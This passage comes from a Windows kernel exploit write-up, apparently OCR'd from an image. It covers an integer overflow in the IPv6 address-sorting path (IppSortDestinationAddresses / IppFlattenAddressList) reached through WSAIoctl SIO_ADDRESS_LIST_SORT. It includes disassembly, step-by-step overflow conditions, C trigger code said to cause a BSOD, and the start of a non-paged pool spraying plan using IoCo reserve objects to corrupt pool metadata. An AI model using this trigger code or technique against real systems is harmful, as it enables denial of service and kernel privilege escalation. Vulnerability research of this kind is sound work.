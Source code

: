 ```text
IppFlattenAddressList(x,x)+25   lea     ecx, [ecx+ebx*8]
IppFlattenAddressList(x,x)+28   cmp     dword ptr [ecx+8], 1Ch
IppFlattenAddressList(x,x)+2C   jz      short loc_4DCA9 

IppFlattenAddressList(x,x)+9C   cmp     word ptr [edx], 17h
IppFlattenAddressList(x,x)+A0   jnz     short loc_4DCA2
```

The copy will stop if those checks fail. That means that each *SOCKET_ADDRESS* has a length of 0x1c and that each *SOCKADDR* buffer pointed to by the socket address begins with a 0x17 byte. Long story short :

  * Make the multiplication at *IppSortDestinationAddresses+29* overflow
  * Get a non-paged pool chunk at *IppSortDestinationAddresses+3e* that is too little
  * Write user controlled memory to this chunk in *IppFlattenAddressList+67* and overflow as much as you want (provided that you take care of the 0x1c and 0x17 bytes)

The code below should trigger a BSOD. Now the objective is to place an object after our vulnerable object and modify pool metadata. 
```text
WSADATA wd = {0};
SOCKET sock = 0;
SOCKET_ADDRESS_LIST *pwn = (SOCKET_ADDRESS_LIST*)malloc(sizeof(INT) + 4 * sizeof(SOCKET_ADDRESS));
DWORD cb;

memset(buffer,0x41,0x1c);
buffer[0] = 0x17;
buffer[1] = 0x00;
sa.lpSockaddr = (LPSOCKADDR)buffer;
sa.iSockaddrLength = 0x1c;
pwn->iAddressCount = 0x40000003;
memcpy(&pwn->Address[0],&sa,sizeof(_SOCKET_ADDRESS));
memcpy(&pwn->Address[1],&sa,sizeof(_SOCKET_ADDRESS));
memcpy(&pwn->Address[2],&sa,sizeof(_SOCKET_ADDRESS));
memcpy(&pwn->Address[3],&sa,sizeof(_SOCKET_ADDRESS));

WSAStartup(MAKEWORD(2,0), &wd)
sock = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);
WSAIoctl(sock, SIO_ADDRESS_LIST_SORT, pwn, 0x1000, pwn, 0x1000, &cb, NULL, NULL)
```

#Spraying the pool 
##Non paged objects

There are several objects that we could easily use to manipulate the non-paged pool. For instance we could use semaphore objects or reserve objects.
```text
*8516b848 size:   48 previous size:   48  (Allocated) Sema 
*85242d08 size:   68 previous size:   68  (Allocated) User 
*850fcea8 size:   60 previous size:    8  (Allocated) IoCo 
```

We are trying to overflow a pool chunk with a size being a multiple of 0x1c. As 0x1c\*3=0x54, the driver is going to request 0x54 bytes and being therefore given a chunk of 0x60 bytes. This is exactly the size of an I/O completion reserve object. To allocate a IoCo, we just need to call *NtAllocateReserveObject* with the object type IOCO. To deallocate the IoCo, we could simply close the associate the handle. Doing this would make the object manager release the object. For more in-depth information about reserve objects, you can read j00ru’s article [[4]](http://magazine.hitb.org/issues/HITB-Ezine-Issue-003.pdf).
